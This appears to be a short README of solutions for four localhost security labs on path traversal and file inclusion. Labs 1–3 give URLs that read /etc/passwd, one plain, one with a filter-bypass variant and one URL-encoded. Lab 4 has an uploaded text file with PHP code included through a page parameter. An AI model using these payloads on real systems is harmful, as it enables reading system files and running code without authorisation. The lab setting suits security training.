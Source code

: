 ## Lab 1
   Access: `http://localhost:8061/view.php?file_name=../../../../etc/passwd`

## Lab 2
   Access: `http://localhost:8062/view.php?file_name=..././..././..././..././etc/passwd`

## Lab 3
   Access: `http://localhost:8063/view.php?file_name=..%2f..%2f..%2f..%2fetc%2fpasswd`

## Lab 4
   Step 1: Upload the .txt [file](./lab4/src/upload/readme.txt) with PHP code
   
   Step 2: Access `http://localhost:8064/?page=../upload/readme.txt`
   
